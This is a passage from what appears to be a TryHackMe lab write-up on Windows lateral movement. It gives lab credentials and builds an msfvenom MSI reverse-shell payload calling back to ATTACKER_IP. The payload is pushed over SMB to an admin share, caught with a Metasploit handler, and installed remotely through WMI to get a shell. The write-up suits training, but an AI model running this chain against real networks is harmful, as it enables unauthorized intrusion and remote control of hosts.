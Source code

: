 * We are also given a set of administrative credentials:
	* User: `ZA.TRYHACKME.COM\t1_corine.waters`
	* Password: `Korine.1994`
* Create the MSI payload using `msfvenom` (make sure to rename `radu-installer.msi` with something else):

```bash
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f msi > radu-installer.msi
```

* Transfer the payload using SMB:

```bash
$ smbclient -c 'put radu-installer.msi' -U t1_corine.waters -W ZA '//thmiis.za.tryhackme.com/admin$/' Korine.1994
```

* Start a `metasploit` listener/handler:

```bash
$ msfconsole
> use exploit/multi/handler
> set LHOST ATTACKER_IP
> set LPORT 4445
> set payload windows/x64/shell_reverse_tcp
> exploit
```

* Using the SSH connection, configure and start a WMI session against `THMIIS` by opening powershell and typing the commands:

```powershell
> powershell
> $username = 't1_corine.waters';
> $password = 'Korine.1994';
> $securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
> $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
> $Opt = New-CimSessionOption -Protocol DCOM
> $Session = New-Cimsession -ComputerName thmiis.za.tryhackme.com -Credential $credential -SessionOption $Opt -ErrorAction Stop
```

* Finally, invoke the `Install` method to trigger the payload:

```powershell
> Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\radu-installer.msi"; Options = ""; AllUsers = $false}
```

You should now have a reverse shell in your `metasploit` listener. Get the flag by running the file located at: `C:\Users\t1_corine.waters\Desktop\Flag.exe`.

### Task 5

* Log in using SSH with the newly provided Administrator credentials:

```bash
$ ssh za\\t2_felicia.dean@thmjmp2.za.tryhackme.com
```
